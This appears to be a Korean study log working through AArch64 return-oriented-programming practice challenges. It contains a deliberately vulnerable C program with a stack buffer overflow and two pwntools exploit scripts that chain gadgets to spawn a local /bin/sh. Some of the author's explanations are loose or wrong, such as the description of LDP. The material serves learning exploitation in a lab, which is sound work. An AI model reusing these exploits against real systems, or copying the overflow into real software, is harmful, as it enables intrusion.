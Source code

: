 우리는 chaining을 함에 있어서 MOV, LDR, LDP 가젯을 사용한다.
```
MOV r1,m           : r1 = m
LDR r1, [r2. #16]  : r2에 16바이트 더한 주소에 값을 읽어와 r1에 저장한다.
LDP r1, r2, [addr] : addr주소에 r1,r2 를 저장한다.
```
LDR은 불러오는 변수의 크기에 따라 LDRB, LDRH, LDR로 나뉜다.
LDR은 int, B는 byte, H는 short 이다.

예제 문제를 풀어보면서 알잘딱을 해보자

SP랑 x29는 항상 같은 값인데 왜 두개 다 있는걸까
strings로 뭐 찾는데 0xaaa 이렇게 3글자가 나오면 보통은 0x400aaa 이런거임. 왜인지는 모름

아 맞다 sp 업데이트 되지
그냥 ldr은 업데이트 안되는듯

```c
#include <stdio.h>

char *sh = "/bin/sh";

void gadget(){
        asm("ldr x0, [sp]");
        asm("ldr x1, [sp, #8]");
        asm("ldr x2, [sp, #16]");
        asm("ldr x30, [sp, #24]");
        asm("ret");
        execve("/bin/ls", 0, 0);
}

void setup_environment() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

int getstring(){
        char buf[0x30];
        printf("insert >> ");
        read(0, buf, 0x100);
        return 0;
}

int main(){
        setup_environment();
        printf("please chaining\n");
        getstring();
        return 0;
}
```

```python
from pwn import *

#p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu/", "-g", "8888", "./chain"])
p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu/", "./chain"])

x0_1_2_30_ret = 0x40078c
execve = 0x0000000000400650
binsh = 0x00000000004008b0

ex = b'a'*48
ex += b'b'*0x8
ex += p64(x0_1_2_30_ret)
ex += p64(binsh)
ex += p64(0)
ex += p64(0)
ex += p64(execve)

pause()

p.sendlineafter(b"insert >> ", ex)

p.interactive()
```

![](https://i.imgur.com/4fiN28E.png)

캬
이제 exploitable 인가 그거만 풀면 될 듯

![](https://i.imgur.com/DwcL8PF.png)

![](https://i.imgur.com/m9PK14q.png)

basic overflow 이다.
가젯은 ROPgadget으로 찾으면 되고 system 함수와 ldr x0 , ldr x30 , ret 가젯을 찾았다.
![](https://i.imgur.com/1a2oe9b.png)
```python
from pwn import *

e = ELF("./Exploitable")
p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu/", "./Exploitable"])
# p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu/", "-g", "8888", "./Exploitable"])
binsh_addr = next(e.search(b"/bin/sh\x00"))

system_add = 0x400714
# x0 에 /bin/sh 만 넣고 system_add 실행하면 될 듯
# 그러면 찾아야 할건 ldr x0  sp, ldp x30 sp , ret 요거인듯
# 여기서 ret에 system_add 넣으면 될 듯
gadget = 0x0000000000400724
#  : ldr x0, [sp, #0x18] ; ldp x29, x30, [sp], #0x20 ; ret
# sp가 0x10 높아짐

ex = b'a'*0x20
ex += b'b'*0x8
ex += p64(gadget)
ex += b'd'*0x18
ex += p64(system_add)
ex += b'e'*0x8
ex += p64(binsh_addr)

p.sendlineafter(b"...\n", ex)

p.interactive()

```
살짝 감 잡았다.
그냥 ret chaining은 그냥 함수에 있는거 가져다 쓰면 그만이고 x0, x1, x2 같은 가젯이 문제네.

![](https://i.imgur.com/PfXE29p.png)

